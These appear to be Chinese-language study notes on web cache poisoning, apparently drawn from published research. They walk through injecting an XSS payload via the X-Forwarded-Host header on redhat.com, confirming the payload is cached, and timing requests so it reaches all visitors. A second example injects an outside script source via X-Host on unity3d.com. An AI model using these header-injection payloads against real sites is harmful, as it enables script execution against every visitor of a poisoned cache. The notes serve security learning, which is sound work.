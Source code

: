 上面可以看到 `X-Forwarded-Host` header 被用來產生 Open Graph URL，用在 `<meta>` 中  
下一步就是要研究有沒有機會用在 `cross-site scripting payload` 上  

```
GET /en?dontpoisoneveryone=1 HTTP/1.1
Host: www.redhat.com
X-Forwarded-Host: a."><script>alert(1)</script>

HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<meta property="og:image" content="https://a."><script>alert(1)</script>"/> 
```

上面
- 讓我們確認了，我們能產生一個 response，能執行任何 JS  
- 接著，要檢查這個 response 有沒有在 cache 中  
- 不要因為看到 `Cache Control: no-cache` 就直接放棄，嘗試攻擊看看總是有機會

首先通過重新發送不帶惡意 header 的 request 進行驗證
- 然後直接在另一台機器上測試

```
GET /en?dontpoisoneveryone=1 HTTP/1.1
Host: www.redhat.com

HTTP/1.1 200 OK
…
<meta property="og:image" content="https://a."><script>alert(1)</script>"/>
```

儘管 response 沒有任何表明存在 cache 的 header
- 但漏洞利用顯然已被 cache

用 `DNS lookup` 提供了一種解釋
1. `www.redhat.com` 是 `www.redhat.com.edgekey.net` 的 `CNAME`
2. 表示它正在使用 `Akamai` 的 `CDN`

目前為止
- 已經證明了能夠使 `https://www.redhat.com/en?dontpoisoneveryone=1`

為了真正 poison 並將我們的漏洞利用傳遞給所有後續訪問者
- 需要確保在 cache response 過期後向主頁發送第一個請求
- 可以嘗試使用 `Burp Intruder` 之類的工具或自定義腳本來發送大量請求
- 攻擊者可以通過對目標的 cache system 進行逆向工程
  - 通過仔細閱讀 document 和隨著時間的推移監控站點來預測確切的過期時間

### 以 `unity3d.com` 為例：
```
GET / HTTP/1.1
Host: unity3d.com
X-Host: portswigger-labs.net

HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://portswigger-labs.net/sites/files/foo.js"></script>
```

